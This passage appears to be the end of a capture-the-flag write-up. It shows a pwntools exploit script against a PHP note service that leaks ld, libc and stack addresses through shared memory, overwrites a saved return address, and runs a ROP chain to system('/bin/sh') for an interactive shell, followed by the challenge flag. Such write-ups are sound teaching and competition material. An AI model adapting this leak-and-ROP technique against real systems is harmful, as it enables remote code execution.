 stop_str = b"v0lp3_was_here"
create_note(r, b"1", stop_str)
view_note(r, b"13")
leak = r.recvuntil(stop_str)

segment_after_shm = [u64(leak[i : i + 8]) for i in range(4022, 6022, 8)]

# # After we get ld all others address can be calculated by the distance
ld_leak = segment_after_shm[LD_OFFSET] - 0x2DD6D
libc.address = ld_leak - 11489280
shm_addr = ld_leak - 12288

# environ leak
stack_leak = u64(leak[254598 : 254598 + 8])

log.info(f"ld @ 0x{ld_leak:x}")
log.info(f"libc @ 0x{libc.address:x}")
log.info(f"shmaddress @ 0x{shm_addr:x}")

ret_addr_target = stack_leak - 14680
shm_object.end = (ret_addr_target - 32) - shm_addr

log.info(f"environ @ 0x{stack_leak:x}")
log.info(f"zend_execute saved rip @ 0x{ret_addr_target:x}")

payload = shm_object.get() + shm_chunk.get()
edit_memo(r, payload)

rop = ROP(libc)
binsh = next(libc.search(b"/bin/sh"))
ret = rop.find_gadget(["ret"])[0]
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]

chain = flat(
    p64(pop_rdi),
    p64(binsh),
    p64(ret),
    p64(libc.sym.system),
)

create_note(r, b"0", b"AA" + chain + cyclic(0x50 - len(chain) - 2))

# Trigger
r.sendlineafter(b">", b"")

log.success("Got shell?!")

r.interactive()
{{< /code >}}

Thanks to the organizers!

> crew{PHP_5t4nd5_f0r_Pwn_Hyp3rt3xt_Pr3pr0c3ss03r_b1f24a4d}
